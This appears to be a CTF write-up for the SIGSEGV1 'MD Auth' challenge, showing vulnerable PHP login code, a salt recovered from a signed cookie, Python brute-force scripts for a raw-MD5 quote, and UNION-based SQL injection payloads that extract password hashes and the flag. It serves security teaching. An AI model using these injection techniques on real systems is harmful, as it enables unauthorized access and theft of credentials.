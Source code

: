 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown"/ 
I was wrong but it was nonetheless interesting to solve.

The source code of the index was available by requesting : http://finale-docker.rtfm.re:4444/?source

{% highlight php%}
```php
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
```
{% endhighlight %}

At first I tried to access the database with my browser by requesting finale-docker.rtfm.re:4444/mdauth.db, unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
```sql
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
```
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
```php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
```
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
```php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
```
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
```python
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
```
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
```sql
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
```
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
```sql
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
```
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
```python
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
```
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
```sql
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
```
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
```php
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
```
{% endhighlight %}